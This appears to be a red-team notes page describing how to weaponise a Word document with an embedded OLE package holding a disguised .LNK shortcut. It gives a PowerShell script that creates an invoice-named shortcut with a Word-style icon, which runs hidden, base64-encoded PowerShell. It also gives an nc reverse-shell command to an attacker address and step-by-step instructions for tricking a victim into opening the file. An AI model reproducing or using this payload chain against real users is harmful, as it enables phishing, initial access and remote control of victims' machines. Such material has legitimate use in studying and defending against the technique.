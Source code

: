 # ⭕ embedded OLE + LNK objects

{% embed url="https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence" %}

{% embed url="https://www.securify.nl/en/blog/click-me-if-you-can-office-social-engineering-with-embedded-objects" %}

attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them

Creating an .LNK file that will trigger the payload once executed:

```
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```

Powershell payload will trigger a rudimentary NC reverse shell:

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

Once the above powershell script is executed, an `.LNK` shortcut is created

![](<../../.gitbook/assets/image (23).png>)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](<../../.gitbook/assets/image (50).png>)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](<../../.gitbook/assets/image (21).png>)

![](<../../.gitbook/assets/image (31).png>)

Point the package to the .lnk file containing the payload:

![](<../../.gitbook/assets/image (29).png>)

Final result:

![](<../../.gitbook/assets/image (12).png>)

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](<../../.gitbook/assets/image (2).png>)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](<../../.gitbook/assets/image (42).png>)

